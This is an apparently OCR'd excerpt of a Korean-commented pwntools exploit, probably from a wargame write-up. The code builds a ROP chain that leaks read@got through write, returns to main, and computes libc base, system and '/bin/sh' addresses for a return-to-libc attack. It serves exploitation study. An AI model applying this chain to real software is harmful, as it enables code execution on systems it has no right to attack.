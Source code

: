 ``` python

순서별 해석:
pop rdi; ret → rdi = 1 (stdout)
pop rsi; pop r15; ret → rsi = read_got, r15 = dummy
(즉 write의 두 번째 인자 = read@got)
p64(8) → write의 세 번째 인자 = 8 (8바이트 출력)
write@plt → 결국 write(1, read@got, 8) 실행됨
→ 결과: read@got 에 저장된 진짜 libc의 read 함수 주소(8바이트)를 화면(stdout)에 출력.

'''
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)

# return to main
'''
write 호출이 끝나면 프로그램이 종료되지 않고 다시 main() 함수로 돌아가게 만듦.
이유: 1차 페이로드에서 libc 주소 leak 한 뒤, 2차 페이로드를 다시 주입하기 위함.
'''
payload += p64(main)

'''
완성된 1차 페이로드를 대상 프로그램에 전송.
C 프로그램에서 read() 함수가 입력을 받아오는 부분에 그대로 들어가게 됨.
'''
p.send(payload)

'''
p.recvuntil(b'A' * 0x40) -> ROP로 호출한 write 이전에 stdout으로 흘러나온 buf 패딩(A*0x40)을 스킵하기 위함.

이유: stdout으로 출력될 때 페이로드 패딩(A * 0x48) 중 일부가 먼저 나올 수 있음
실제로 프로그램이 write 호출 직전에 버퍼를 읽어서 스택에 채우고, write 함수가 실행되면서 stdout으로 스택 상의 일부 데이터를 먼저 찍어낼 수 있음.
b'A' * 0x40 까지 날아온 데이터는 패딩부분이므로 이를 먼저 흘려보내고 그 뒤에 나오는 read@got실제 주소 8바이트만 받아야 함.
죽, recvuntil(b'A' * 0x40)은 패딩(A들)을 스킵하고 나머지 데이터를 읽기 위해 사용.

read@got는 8바이트지만, 64비트 환경에서 상위 2바이트가 0인 경우가 많다. -> 그냥 6바이트만 recv
u64() 는 항상 8바이트 필요
그래서 뒤에 0x00 두바이트를 붙여서 64비트 주소로 변환.

????
그런데 왜 recvuntil(b'A' * 0x40)일까?
우리가 p.send(payload) 했을 때, 대상 프로그램은
    write(1, buf, sizeof(buf)) // buf(0x40)만 출력
을 실행한다.
따라서 프로그램이 화면(stdout)에 내보내는 첫 출력은 buf 내용의 "A" * 0x40 이다.
그 뒤에 우리가 ROP로 호출한 write(1, read@got, 8)의 결과(즉, libc 실제 주소)가 이어서 출력된다.
'''
p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6) + b'\x00' * 2)

'''
read의 실제 주소 - read 오프셋을 하여 libc base 값을 구한다.
이를 이용해서 system주소와 "/bin/sh"의 주소를 구한다.
'''
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb

'''
local 테스트시
[+] libc base: 0x7fc8cbeeb510
remote 테스트시
[+] libc base: 0x7f895b4b9000
```